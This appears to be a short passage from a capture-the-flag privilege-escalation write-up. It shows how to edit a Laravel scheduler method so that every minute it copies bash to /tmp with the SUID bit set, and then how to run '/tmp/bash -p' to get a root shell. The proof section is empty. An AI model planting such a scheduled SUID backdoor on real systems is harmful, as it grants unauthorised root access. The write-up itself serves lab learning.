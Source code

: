 search laravel schedule run.

https://laravel.com/docs/9.x/scheduling

change the php file.

```bash
    protected function schedule(Schedule $schedule)
    {
	   $schedule->exec('cp /bin/bash /tmp/bash; chmod 4755 /tmp/bash')->everyMinute();
        // $schedule->command('inspire')
        //          ->hourly();
    }
```

wait and check /tmp

```bash
sleep; ls -al /tmp
```

got bash file with suid bit.

![image-20221001195556861](./images/image-20221001195556861.png)

```bash
/tmp/bash -p
```



## proof

```bash

```
